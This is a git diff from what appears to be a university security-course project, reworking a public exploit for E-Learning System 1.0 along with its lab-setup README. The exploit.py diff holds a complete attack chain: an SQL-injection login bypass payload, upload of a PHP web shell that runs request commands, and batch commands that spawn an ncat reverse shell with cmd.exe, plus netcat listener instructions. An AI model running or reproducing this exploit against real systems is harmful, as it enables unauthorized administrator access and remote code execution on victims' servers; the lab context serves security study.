

Cleaned up Comments

diff --git a/exploit.py b/exploit.py
@@ -1,31 +1,28 @@
-# Exploit Title: E-Learning System 1.0 - Authentication Bypass & RCE
-# Exploit Author: Himanshu Shukla & Saurav Shukla
-# Date: 2021-01-15
+# Original Exploit Author: Himanshu Shukla & Saurav Shukla
+# CS590J Extensions Yefim Shneyderman, Anthony Rinaldi & Brendon Ky
+# Exploit Code: https://www.exploit-db.com/exploits/49434
+# CVE: http://cve.mitre.org/cgi-bin/cvename.cgi?name=2020-14972
 # Vendor Homepage: https://www.sourcecodester.com/php/12808/e-learning-system-using-phpmysqli.html
 # Software Link: https://www.sourcecodester.com/sites/default/files/download/oretnom23/caiwl.zip
-# Version: 1.0
-# Tested On: Kali Linux + XAMPP 7.4.4
-# Description: E-Learning System 1.0 - Authentication Bypass Via SQL Injection + Remote Code Execution
-
-#Step 1: run the exploit in python with this command: python3 exploit.py
-#Step 2: Input the URL of the vulnerable application: Example: http://10.10.10.23/caiwl/
-#Step 3: Input your LHOST where you want the reverse shell: Example: 10.9.192.23
-#Step 4: Input your LPORT that is the port where the reverse shell will spawn: Example: 4444
-#Step 5: Start a Netcat Listener on the port specified in Step 4 using this command: nc -lnvp 4444
-#Step 6: Hit enter on the  if your Netcat Listener is ready, and you will get a reverse shell as soon as you hit enter.
 
 import requests
+import colorama
+from colorama import Fore, Back, Style
+
+colorama.init(autoreset=True)
 
 print('########################################################')
 print('##                 E-LEARNING SYSTEM 1.0              ##')
 print('##   AUTHENTICATION BYPASS & REMOTE CODE EXECUTION    ##')
+print('##   Yefim Shneyderman, Anthony Rinaldi, Brendon Ky   ##')
+print('##                                                    ##')
+print('##                        .-.                         ##')
+print("##                       (0.0)                        ##")
+print("##                     '=.|m|.='                      ##")
+print("##                     .='^^^'=.                      ##")
+print('##                                                    ##')
 print('########################################################')
 
-print('Author - Himanshu Shukla & Saurav Shukla')
-
-GREEN =  '\033[32m' # Green Text
-RED =  '\033[31m' # Red Text
-RESET = '\033[m' # reset to the defaults
 #Create a new session
 s = requests.Session() 
   
@@ -36,7 +33,7 @@ cookies = {'PHPSESSID': 'd794ba06fcba883d6e9aaf6e528b0733'}
 LINK = "http://localhost/caiwl/"
 
 #Authentication Bypass
-print("[*]Attempting Authentication Bypass...")
+print("Attempting Authentication Bypass...")
 values = {"user_email":"'or 1 or'", "user_pass":"lol","btnLogin":""}
 r=s.post(LINK+'admin/login.php', data=values, cookies=cookies) 
 
@@ -46,22 +43,23 @@ r=s.post(LINK+'admin/login.php', data=values, cookies=cookies)
 logged_in = True if("You login as Administrator." in r.text) else False
 l=logged_in
 if l:
-	print(GREEN+"[+]Authentication Bypass Successful!", RESET)
+	print(f"{Fore.GREEN}Authentication Bypass Successful!")
 else:
-	print(RED+"[-]Failed To Authenticate!", RESET)
-
+	print(f"{Fore.RED}Failed To Authenticate!")
+	print("Check that the victim program is running (XAMP Apache and MySQL)")
+	exit()
 
 #Creating a PHP Web Shell
 
 phpshell  = {
-               'file': 
-                  (
-                   'shell.php', 
-                   '<?php echo shell_exec($_REQUEST["cmd"]); ?>', 
-                   'application/x-php', 
-                  {'Content-Disposition': 'form-data'}
-                  ) 
-             }
+					'file': 
+						(
+						 'shell.php', 
+						 '<?php echo shell_exec($_REQUEST["cmd"]); ?>', 
+						 'application/x-php', 
+						{'Content-Disposition': 'form-data'}
+						) 
+				 }
 
 # Defining value for form data
 data = {'LessonChapter':'test', 'LessonTitle':'test','Category':'Docs','save':''}
@@ -69,36 +67,35 @@ data = {'LessonChapter':'test', 'LessonTitle':'test','Category':'Docs','save':''
 
 
 #Uploading Reverse Shell
-print("[*]Uploading PHP Shell For RCE...")
+print("Uploading PHP Shell For RCE...")
 upload = s.post(LINK+'/admin/modules/lesson/controller.php?action=add', cookies=cookies, files=phpshell, data=data, verify=False)
 
 shell_upload = True if("window.location='index.php'" in upload.text) else False
 u=shell_upload
 if u:
-	print(GREEN+"[+]PHP Shell has been uploaded successfully!", RESET)
+	print(f"{Fore.GREEN}PHP Shell has been uploaded successfully!")
 else:
-	print(RED+"[-]Failed To Upload The PHP Shell!", RESET)
+	print(f"{Fore.RED}Failed To Upload The PHP Shell!")
 
-print("[*]Please Input Reverse Shell Details")
-#LHOST=input("[*]LHOST : ")
-#LPORT=input("[*]LPORT : ")
+#Host IP Address (attacker)
 LHOST = "192.168.1.2"
+#Host port (attacker)
 LPORT = "9999"
 
-print('[*]Start Your Netcat Listener With This Command : nc -lvnp '+LPORT)
-input('[*]Hit Enter if your netcat shell is ready. ')
-print('[+]Deploying The Web Shell...')
+print('Start Your Netcat Listener With This Command : nc -l '+LPORT)
+input('**Hit Enter if your netcat shell is ready.**')
 
 #Creating the Script
+print("Creating the batch script file to setup the reverse shell")
 e=s.get('http://localhost/caiwl/admin/modules/lesson/files/shell.php?cmd=echo cd C:\\Program Files (x86)\\Nmap > script.bat', cookies=cookies)
 e=s.get('http://localhost/caiwl/admin/modules/lesson/files/shell.php?cmd=echo >> script.bat', cookies=cookies) 
 e=s.get('http://localhost/caiwl/admin/modules/lesson/files/shell.php?cmd=echo ncat.exe localhost 9999 -e cmd.exe>> script.bat', cookies=cookies) 
 e=s.get('http://localhost/caiwl/admin/modules/lesson/files/shell.php?cmd=echo >> script.bat', cookies=cookies) 
 e=s.get('http://localhost/caiwl/admin/modules/lesson/files/shell.php?cmd=echo EXIT>> script.bat', cookies=cookies) 
-print("Response: ", e)
 
-#Executing The Webshell
+#Executing The Webshell (Beachhead)
+print("Launching the reverse shell/beachhead")
 e=s.get('http://localhost/caiwl/admin/modules/lesson/files/shell.php?cmd=script.bat', cookies=cookies)
 print("Response: ", e)
 exit()
-            
+				

diff --git a/README.md b/README.md
@@ -7,6 +7,7 @@ To test this out, generally follow the setup instructions here: https://www.sour
 - First setup a virtual machine in virtualbox of windows 10 old version: https://drive.google.com/file/d/1OUPmqJ7JiYdY5jt7T7G9oDnN01usJs7v/view?usp=sharing. I gave it 32 GB storage and 5 GB RAM, but more is better of course. All future instructions are from this VM.
 - Install XAMP version 7.2.33 onto this windows VM(this version is important) https://www.apachefriends.org/download.html. You will have to click more and then find version 7.2.33. Download the most frequently downloaded copy of this version.
 - Install netcat through nmap https://nmap.org/
+- Install the most recent version of Python and pip install requests and colorama (it's a lot easier to see colored text stand out)
 - Follow the instructions in the first link to setup E-Learning System 1.0. This includes extracting the CAIWL program, running apache and mySQL, setting up a database.
 - Execute the python script (exploit.py) from anywhere (on the VM unless you specify the ports from another machine - we need to modify the code if we want it to open a port onto another VM) to gain a reverse shell where you have another window running:
 ```
